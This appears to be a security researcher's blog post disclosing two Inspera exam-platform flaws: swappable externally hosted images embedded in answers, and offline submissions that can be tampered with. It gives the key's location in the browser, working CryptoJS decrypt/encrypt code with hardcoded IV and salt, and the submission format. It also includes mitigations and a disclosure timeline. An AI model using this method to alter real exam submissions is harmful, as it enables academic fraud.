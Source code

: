 ```yaml
---
title: Editing Inspera exam answers after submission
description: Detailing vulnerabilities that allow students to edit their answers after the examination period ends.
updatedAt: 2022-11-03
---
```


Inspera is "a cloud-based digital assessment platform enabling [educators] to
plan, author, deliver and mark assessments in one place" [[1]]. Their website says that they are "tested
regularly by external parties, such as third parties conducting penetration tests and regular
audits" [[2]]. Despite this, there are critical
vulnerabilities that allow students to edit answers after the examination period ends.

## Embedding live images

Students are able to drag and drop images into their answers, which embeds the image URL in the
submission. To exploit this, students can add images hosted on a server they control and change the
image being served at a later date.

The exam submission is saved using XML and looks like this. It would be interesting to know if
scripts run in the exam marker's browser.

```xml
<itemResult identifier="99999999" sequenceIndex="10" datestamp="2022-11-02T99:99:99Z" sessionStatus="pendingSubmission">
  <responseVariable identifier="numAttempts" cardinality="single" baseType="integer"><candidateResponse>
    <value>1</value>
  </candidateResponse></responseVariable>
  <responseVariable identifier="duration" cardinality="single" baseType="duration"><candidateResponse>
    <value>35</value>
  </candidateResponse></responseVariable>
  <responseVariable identifier="RESPONSE" cardinality="single" baseType="string"><candidateResponse>
    <value>&lt;p>&lt;img src="https://redacted.com/random_image/" />&lt;/p></value>
  </candidateResponse></responseVariable>
</itemResult>
```

The following image demonstrates the ease of exploitation. In this example, the image is randomly
generated every time it is loaded. This would normally be a static image containing answers that can
be changed in the future.

<blog-video src="changing-image.mp4" emulate-gif>
  Inspera stores the image URL instead of taking a snapshot of the embedded image.
</blog-video>

A trivial solution would be to convert the image to a data URI when embedded. This would make an
immutable copy of the image when it is copied into the exam and remove any links to external
resources.

## Editing offline submission files

If a student's internet connection fails, they are able to download their submission to submit
later when their connection is restored. This submission package is encrypted so that, in theory,
the submission cannot be tampered with or entered under another student's name.

The student's browser must have access to the encryption key so it can encrypt the file offline. This
key can be extracted and used to decrypt and re-encrypt the offline submission at any point before it
is sent to the exam administrators. Inspera calls the encryption key a `fileSaveKey`. It can be retrieved
from the following location: `InsperaPlayer.storeManager.getState().session.sessionInfo.fileSaveKey`.

The code used to perform this encryption looks like this. It uses PBKDF2 to generate a 128-bit key
from the `fileSaveKey`. I'm not sure why they don't just use the `fileSaveKey` since it is the right
length already, and doing two iterations of PBKDF2 isn't going to slow an attacker down.

```js
// Inspera uses the CryptoJS library, https://cryptojs.gitbook.io.
import aes from 'crypto-js/aes';
import hex from 'crypto-js/enc-hex';
import pbkdf2 from 'crypto-js/pbkdf2';
import encBase64 from 'crypto-js/enc-base64';

function encryptDelivery(deliveryObject, fileSaveKey) {
  const iv = hex.parse('F27D5C9927726BCEFE7510B1BDD3D137');
  const salt = hex.parse('3FF2EC019C627B945225DEBAD71A01B6985FE84C95A70EB132882F88C0A59A55');
  const key = pbkdf2(fileSaveKey, salt, { keySize: 4, iterations: 2 });

  const data = JSON.stringify(deliveryObject);
  const encrypted = aes.encrypt(data, key, { iv });
  return encrypted.ciphertext.toString(encBase64);
}
```

We can easily write the decryption function.

```js
// Import the same functions as before and add CryptoJS's UTF-8 encoder.
import encUtf8 from 'crypto-js/enc-utf8';

function decryptDelivery(base64Encrypted, fileSaveKey) {
  const iv = hex.parse('F27D5C9927726BCEFE7510B1BDD3D137');
  const salt = hex.parse('3FF2EC019C627B945225DEBAD71A01B6985FE84C95A70EB132882F88C0A59A55');
  const key = pbkdf2(fileSaveKey, salt, { keySize: 4, iterations: 2 });

  const encrypted = { ciphertext: encBase64.parse(base64Encrypted) };
  const data = aes.decrypt(encrypted, key, { iv });
  return JSON.parse(data.toString(encUtf8));
}
```

The decrypted data is a JSON file in the following format. Each `itemResult` string is XML in the
format described earlier.

```ts
interface DeliveryObject {
  assessmentRunId: number;
  candidateId: string;
  deliveryMode: string;
  itemResults: {
    contentRevisionId: number;
    itemResult: string(XML);
    avoidStoring: boolean;
  }[];
  startTime: Date;
  timeOffset: string;
  timestamp: Date;
  userId: number;
}
```

From here, modifying the submission and re-encrypting it in the correct format is simple. This
modified file can be given to exam administrators at a later date, when the student chooses to
reconnect to the internet. The University of Auckland states that offline exams must be submitted
within one week of the exam date [[3]].

## Inspera Exam Portal & Inspera Smarter Proctoring

Inspera offers two products for increased restrictions and security: Inspera Exam Portal (IEP),
previously known as the Safe Exam Browser, and Inspera Smarter Proctoring (ISP).

It is likely that the first vulnerability is only possible in exams with unrestricted browsers
because access to external sites can be disabled when using IEP and ISP.

Modifying the offline submission is more difficult when using IEP or ISP, but [Heintz (2017)][4]
showed that it is possible to bypass the anti-tamper protections in IEP. If a student routed their
network traffic through a proxy, it would be possible to start the exam using a modified exam
client, allowing them to retrieve the `fileSaveKey` in order to edit their offline submission.

## Conclusion

This post detailed two vulnerabilities in the online examination service provided by Inspera.
Embedding live images is patchable and has limited impact, but it is not possible to prevent the
modification of offline submissions. The only way to ensure the integrity of exam submissions is
to have students sit their exams in person just like a written/pre-digital exam.

## Disclosure timeline

- 2021-06-15: Found vulnerabilities.
- 2021-06-17: Contacted Inspera.
- 2021-06-18: Escalated within Inspera, received a response from the CTO acknowledging the
  vulnerabilities. They said that Inspera would look into disabling drag and drop functionality for
  images, and suggested using Inspera's remote proctoring solution to record the student's screen
  for the entire session.
- 2022-11-03: Public disclosure.

## References

<blog-undecorated-links>

1. [Inspera. (2022). *Online assessment for education and certification*.][1]
2. [Inspera. (2021). *Cloud Security Statement*.][2]
3. [University of Auckland. (2021). *Support during your Inspera exam*.][2]
4. [Heintz, A. (2017). *Cheating at digital exams-vulnerabilities and countermeasures*.][4]

</blog-undecorated-links>

[1]: https://inspera.com
[2]: https://www.inspera.com/legal/security
[3]: https://cdn.auckland.ac.nz/assets/auckland/students/academic-information/exams-and-final-results/online-exams/student-support-for-inspera-exams.pdf
[4]: https://ntnuopen.ntnu.no/ntnu-xmlui/bitstream/handle/11250/2460113/12292_FULLTEXT.pdf
